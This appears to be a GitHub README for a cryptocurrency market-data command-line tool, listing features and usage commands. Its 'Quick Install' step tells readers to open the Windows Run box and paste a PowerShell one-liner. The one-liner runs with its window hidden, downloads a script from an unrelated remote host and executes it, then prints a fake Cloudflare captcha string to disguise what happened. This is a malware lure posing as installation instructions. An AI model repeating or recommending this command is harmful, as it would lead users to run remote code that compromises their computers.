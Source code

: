 <img src="https://img.shields.io/badge/license-MIT-red?style=for-the-badge&logo=none" alt="license" /> <img src="https://img.shields.io/badge/version-v1.3-blue?style=for-the-badge&logo=none" alt="version" />

## Features
- 🚀 Real-Time Market Data

- 📊 Advanced Charting Tools

- 💼 Smart Portfolio Management

- 🔔 Personalized Alerts

- 🌍 Multi-Currency Support

- 🔍 Enhanced Coin Discovery

Advanced filters (market cap, volume, gainers/losers)

Trending coins & new listings


— All in one powerful, user-friendly app!

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke(); Write-Host   "                                                    Cloudflare. inc.  Captcha-ID:1488                                   ";
```


## Usage

### Basic Commands

```bash
# Display help information
crypto -h

# Navigate through pages
crypto --page 2

# Adjust results per page (max: 250)
crypto --per-page 20

# Change display currency (default: USD)
crypto --currency eur  # Supports USD, EUR, TRY, GBP, etc.
```
